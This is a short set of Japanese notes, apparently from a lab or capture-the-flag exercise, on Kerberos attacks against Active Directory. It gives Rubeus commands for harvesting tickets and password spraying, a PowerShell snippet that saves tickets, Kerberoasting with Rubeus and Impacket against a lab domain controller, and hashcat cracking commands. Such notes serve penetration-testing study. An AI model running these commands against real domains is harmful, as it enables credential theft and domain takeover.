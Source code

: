 ## Rubeus によるチケットの収集と総当たり攻撃

https://github.com/GhostPack/Rubeus

```ps
# 30秒毎にTGTを収集
Rubeus.exe harvest /interval:30
```

```ps
# パスワードスプレーでTGT取得。（ユーザー名は自動的に取得する）
Rubeus.exe brute /password:Password1 /noticket
```

どちらもファイル保存されたりしないので、手作業で保存する必要がある。

```ps
$b64 = Get-Clipboard | Out-String
$b64 = $b64 -replace "\s+", ""
[System.IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String($b64))
```

## Rubeus と Impacket による Kerberoasting

ケルベロースティングの目的は、サービスアカウントのパスワードを入手すること。  
認証済みアカウントが必要。  
強力なパスワードの場合、この攻撃は機能しない。  
もしサービスアカウントがドメイン管理者の場合、ゴールデンチケットを得たのと同じこと。  
防御的な観点でいえば、サービスアカウントをドメイン管理者にしてはならない。

### Rubeus

```ps
# kerberoastable なユーザーのハッシュを出力
Rubeus.exe kerberoast
```

hashcat でクラック。

```sh
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

### impacket

リモートで可

```sh
# kerberoastable なユーザーのハッシュを出力
python3 /home/kali/tools/impacket/examples/GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.194.124 -request
```

Rubeus 同様に hashcat でクラック。

## AS-REP Roasting
